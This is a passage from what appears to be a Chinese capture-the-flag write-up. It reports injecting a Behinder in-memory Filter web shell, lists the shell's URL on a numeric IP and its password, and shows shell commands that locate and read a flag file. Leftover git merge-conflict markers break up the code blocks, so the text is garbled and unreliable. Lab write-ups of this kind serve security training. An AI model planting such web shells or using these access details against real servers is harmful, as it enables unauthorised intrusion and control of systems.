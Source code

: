 [![](assets/1710465426-6d53fd53c873db32915f95aaf1c5c255.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240313104300-6802edfc-e0e3-1.png)

注入内存马：

```bash
冰蝎[Filter]  注入成功！
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
路径：http://121.89.201.231:8080/favicondemo.ico
密码：pass1024
```

连接内存马，得到 flag01：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
/ >find / -name flag*
/flag01.txt

/ >cat /flag01.txt
   ████  ██                    ████   ██ 
  ░██░  ░██            █████  █░░░██ ███ 
 ██████ ░██  ██████   ██░░░██░█  █░█░░██ 
░░░██░  ░██ ░░░░░░██ ░██  ░██░█ █ ░█ ░██ 
  ░██   ░██  ███████ ░░██████░██  ░█ ░██ 
  ░██   ░██ ██░░░░██  ░░░░░██░█   ░█ ░██ 
  ░██   ███░░████████  █████ ░ ████  ████
  ░░   ░░░  ░░░░░░░░  ░░░░░   ░░░░  ░░░░ 
```